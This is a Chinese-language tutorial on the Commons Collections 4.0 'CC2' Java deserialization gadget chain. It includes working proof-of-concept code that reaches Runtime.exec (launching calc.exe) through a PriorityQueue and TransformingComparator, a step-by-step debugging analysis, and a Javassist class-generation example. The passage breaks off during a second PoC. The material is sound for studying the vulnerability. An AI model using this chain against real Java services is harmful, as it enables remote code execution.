## 简介
CC2 使用的是 `javassist`和`PriorityQueue`来构造利用链，并且使用的是`commons-collections-4.0`版本，而`3.1-3.2.1`版本中`TransformingComparator`并没有去实现`Serializable`接口，也就是说这是不可以被序列化的，所以CC2不用3.x版本
## 环境
jdk1.8

commons collections4-4.0

## POC
首先看poc
```java
package com.myproject;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class TestCC2 {

    public static void main(String[] args) throws ClassNotFoundException, IllegalAccessException, NoSuchFieldException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class}, new String[] {"calc.exe"}),
        };

        Transformer transformerChain = new ChainedTransformer(transformers);
        TransformingComparator Tcomparator = new TransformingComparator(transformerChain);
        PriorityQueue queue = new PriorityQueue(1);

        queue.add(1);
        queue.add(2);
        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue,Tcomparator);

        try{
            ByteArrayOutputStream barr = new ByteArrayOutputStream();
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("cc2.ser"));
            outputStream.writeObject(queue);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("cc2.ser"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }

    }
}
```
`ysoserial`提供的利用链如下
```java
/*
	Gadget chain:
		ObjectInputStream.readObject()
			PriorityQueue.readObject()
				...
					TransformingComparator.compare()
						InvokerTransformer.transform()
							Method.invoke()
								Runtime.exec()
 */

```
我们可以看到这段代码，和CC1中的payload是一样的，看过[Commons Collection1 分析利用](https://www.yuque.com/da-labs/secnotes/eru5qp)的朋友在这里不难理解为什么我们要这样构造
```java
Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
    new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] { null, new Object[0] }),
    new InvokerTransformer("exec", new Class[] { String.class}, new String[] {"calc.exe"}),
};

```
### 提出问题
然后看下面的代码，就会好奇了
```java
Transformer transformerChain = new ChainedTransformer(transformers);
TransformingComparator Tcomparator = new TransformingComparator(transformerChain);
PriorityQueue queue = new PriorityQueue(1);

queue.add(1);
queue.add(2);
Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
field.setAccessible(true);
field.set(queue,Tcomparator);
```
我们在[Commons Collection1 分析利用](https://www.yuque.com/da-labs/secnotes/eru5qp)中可以知道，我们需要创建一个map，并绑定`transformerchain`，并在最后给予map数据转化链，然后再进行序列化，反序列化 最后再触发漏洞。在cc2链其实差不太多，我们需要给予一个数据转化链给`comparator`(比较器)，并绑定`transformerchain`，然后通过给`queue`(队列)赋值，最后序列化该实例queue，再反序列化，完成攻击。
并且在`java.util.PriorityQueue`构造函数中，存在构造函数是可以传入comparator的，为什么还要通过反射，给`comparator`赋值呢？
```java
public PriorityQueue(int initialCapacity,
                     Comparator<? super E> comparator) {
    // Note: This restriction of at least one is not actually needed,
    // but continues for 1.5 compatibility
    if (initialCapacity < 1)
        throw new IllegalArgumentException();
    this.queue = new Object[initialCapacity];
    this.comparator = comparator;
}
```
那么我们不使用反射，就利用构造函数来试一试呢？
```java
package com.myproject;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class TestCC2 {

    public static void main(String[] args) throws ClassNotFoundException, IllegalAccessException, NoSuchFieldException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class}, new String[] {"calc.exe"}),
        };

        Transformer transformerChain = new ChainedTransformer(transformers);
        TransformingComparator Tcomparator = new TransformingComparator(transformerChain);
        PriorityQueue queue = new PriorityQueue(1, Tcomparator);

        queue.add(1);
        queue.add(2);
        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("cc2.ser"));
            outputStream.writeObject(queue);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("cc2.ser"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }

    }
}
```
在这里就有一个很隐藏的问题，看似执行了命令，但是却没有生成`cc2.ser`反序列化文件，说明没有进入`try{}catch()`，那么执行的命令就是客户端命令，而不会发送到服务端

在此处分析一下，为什么我们将`Tcomparator`通过构造函数写进去，生成的实例化对象queue，是不会进行进入try代码块序列化，就直接在客户端执行命令
### 分析
在queue.add处调试，在PriorityQueue这个构造函数中，这里就是我们传入的`TransformingComparator`

继续跟进，在queue.add(2)中，调用了offer方法

跟进offer方法，在这里需要关注siftUp方法

在siftUp方法中，comparator不为null(是我们传入的`TransformingComparator`)，则进入if循环，调用siftUpUsingComparator 方法

重点到comparator.compare()方法中，跟进

就到了compare方法中，在这里调用了两次`this.transformer.transform`方法

iTransformer从arr(构造的transformers[]数组)里取值，再调用transform方法

transform 方法就实现链式调用，执行`transformers[]数组`的`Runtime.getRuntime.exec()` 方法

像这样执行了两次，导致会弹出两次计算器，**然后在此处执行完命令就抛出异常，程序就直接crash****此时根本就还只是在向队列添加数据阶段**，还没有进行序列化就直接crash，是根本就不行的
### 解决方案
我们在调用了`siftUpUsingComparator`方法，如果不走if分支，走else分支呢？也就是说不传入`comparator`，让其为null
```java
PriorityQueue queue = new PriorityQueue(1);

queue.add(1);
queue.add(2);
```
当其为null的时候，进入siftUpComparable方法，可以发现在这里只对队列进行了赋值操作，并没有进行compare操作。 返回后就执行序列化代码，但是并没有执行命令

那么如果需要在readObject中调用compare方法这个是否可能成功呢? 这里我们要知道，序列化是将对象转换成字符串的过程，反序列化是将字符串转换成对象的过程，那么在反序列化的过程中，读取了字符串，将其转换成对象之后是不是就需要赋值操作呢？那么在赋值操作的时候，我们不让comparator为null，那么就能进入到siftDownUsingComparator函数中

**条件：**

1. 要执行try-catch代码块的内容 ->  queue 只执行赋值操作，在进行赋值操作的时候，comparator为null
2. 在readObject的时候，需要执行compare函数 -> 赋值操作完成之后，序列化时PriorityQueue的comparator不能为null，否则反序列化时comparator就会为空，就不能进入siftDownUsingComparator函数中
```java
queue.add(1);
queue.add(2);
Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
field.setAccessible(true);
field.set(queue,Tcomparator);
```
在反序列化的时候，在readObejct函数里，执行heapify函数

我们通过反射设置了comparator为Tcomparator，此时comparator不为null，此时进入siftDownUsingComparator函数

在执行compare函数后，就执行transformer.transform方法，进行链式调用执行

到这里就执行了`Runtime.getRuntime.exec("calc.exe")`
## Javassist
[Javassit字节码编程](https://www.yuque.com/da-labs/secnotes/5a33638a5bb6c3896718b1b81570f2cf)
### 介绍
Javassist是一个开源的分析、编辑和创建Java字节码的类库，可以直接编辑和生成Java生成的字节码。
能够在运行时定义新的Java类，在JVM加载类文件时修改类的定义。
Javassist类库提供了两个层次的API，源代码层次和字节码层次。源代码层次的API能够以Java源代码的形式修改Java字节码。字节码层次的API能够直接编辑Java类文件。  
下面大概讲一下POC中会用到的类和方法：  
### ClassPool
ClassPool是CtClass对象的容器，它按需读取类文件来构造CtClass对象，并且保存CtClass对象以便以后使用，其中键名是类名称，值是表示该类的CtClass对象。  
常用方法：

- static ClassPool getDefault()：返回默认的ClassPool，一般通过该方法创建我们的ClassPool；
- ClassPath insertClassPath(ClassPath cp)：将一个ClassPath对象插入到类搜索路径的起始位置；
- ClassPath appendClassPath：将一个ClassPath对象加到类搜索路径的末尾位置；
- CtClass makeClass：根据类名创建新的CtClass对象；
- CtClass get(java.lang.String classname)：从源中读取类文件，并返回对CtClass 表示该类文件的对象的引用；
### CtClass
CtClass类表示一个class文件，每个CtClass对象都必须从ClassPool中获取
常用方法：

- void setSuperclass(CtClass clazz)：更改超类，除非此对象表示接口；
- byte[] toBytecode()：将该类转换为类文件；
- CtConstructor makeClassInitializer()：制作一个空的类初始化程序（静态构造函数）；
### 示例代码
```java
package com.myproject;
import javassist.*;

public class TestJavassist {
    public static void createPerson() throws Exception{
        //实例化一个ClassPool容器
        ClassPool pool = ClassPool.getDefault();
        //新建一个CtClass，类名为Cat
        CtClass cc = pool.makeClass("Cat");
        //设置一个要执行的命令
        String cmd = "System.out.println(\"javassit_test succes!\");";
        //制作一个空的类初始化，并在前面插入要执行的命令语句
        cc.makeClassInitializer().insertBefore(cmd);
        //重新设置一下类名
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        //将生成的类文件保存下来
        cc.writeFile();
        //加载该类
        Class c = cc.toClass();
        //创建对象
        c.newInstance();
    }

    public static void main(String[] args) throws Exception {
        createPerson();
    }
}

```
 新生成的类是这样子的，其中有一块static代码；  

当该类被实例化的时候，就会执行static里面的语句；
在ysoserial的cc2中引入了 TemplatesImpl 类来进行承载攻击payload，需要用到javassist；
### POC
```java
package com.myproject;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.*;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
